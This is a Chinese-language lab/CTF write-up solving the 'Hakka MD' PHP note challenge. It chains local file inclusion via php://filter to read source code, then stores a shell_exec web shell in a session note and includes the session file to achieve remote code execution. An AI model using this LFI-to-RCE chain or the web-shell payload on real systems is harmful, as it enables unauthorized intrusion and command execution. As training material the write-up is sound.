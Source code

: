 # LAB - Hakka MD
###### tags: `資安` `Web`

## 題目解析
主頁是一個筆記平台形式，有輸入的地方，按下 post 可以記錄你做的筆記。

![](https://i.imgur.com/MWHkb2l.png)

但我們輸入 test 看到他噴了一個 warning，這個錯誤是用 header()嘗試跳轉頁面，但前面有其他內容。

![](https://i.imgur.com/hss3RpK.png)

按下筆記列表仍然可以看到我們記的筆記。

![](https://i.imgur.com/VjiM842.png)


## 解題流程
看到他有傳輸 module=modoule/home.php 的參數，合理懷疑可以用 LFI 的方式讀取網站 Source code。

![](https://i.imgur.com/5HFrtun.png)

主頁就是把我們的筆記傳輸過去，一個 form POST 過去，應該不太重要，我們可以直接試試看按下 Post 後跳轉的頁面 (module/post,php)。然後因為是 PHP，我們直接用 PHP filter 去讀讀看 module/post.php 的檔案過 base-64 encode。
```
http://splitline.tw:8401/?module=php://filter/convert.base64-encode/resource=module/post.php
```
成功拿到一串 base-64 encode 的字串，用 CyberChef 轉換回來可以看到 Source code，看來他是把我們的筆記直接存成 Session。

![](https://i.imgur.com/djU9Bct.png)

再來看一下接下來的跳轉頁面，筆記列頁面是不是就是讀我們存的 Session 顯示出來。
```
http://splitline.tw:8401/?module=php://filter/convert.base64-encode/resource=module/post.php
```
果然他是直接讀前一步 post.php 存的 Session，因此我們就可以想說把一些惡意程式當成 note 寫進 Session。

![](https://i.imgur.com/jOUZlHY.png)

再來就是建構惡意 Session，這樣只要我們主動去抓 Session 檔案，就能執行我們的惡意程式。

在首頁輸入框輸入 php 的 shell_exec() 函式。
```php=
<?php echo shell_exec($_GET['cmd']);?>
```
我們看一下 list，有儲存成功但因為我們沒傳 cmd 參數，所以現在是沒有值的，可以看到一個空的筆記。

![](https://i.imgur.com/kPY4I5D.png)

來去看一下主頁提供的 phpinfo()，Session path 是空的，如果沒有特別設定，php 的 Session 會存在 /var/lib/php/session 底下。

![](https://i.imgur.com/FGOaTi0.png)

接著就是直接去 include 我們的 Session 檔案，Session 檔名預設是 sess_\<SESSIONID>，F12 看一下我們的 session_id。

![](https://i.imgur.com/ik0l9YV.png)

直接去 include Session 檔案，傳個 ls 看看有沒有成功。

![](https://i.imgur.com/lXGLHKe.png)

看來是成功做到 RCE 了，再來就是找 FLAG，從根目錄找起，一找就找到了。

![](https://i.imgur.com/2YJjQW9.png)

## FLAG 截圖
![](https://i.imgur.com/npRv4u6.png)
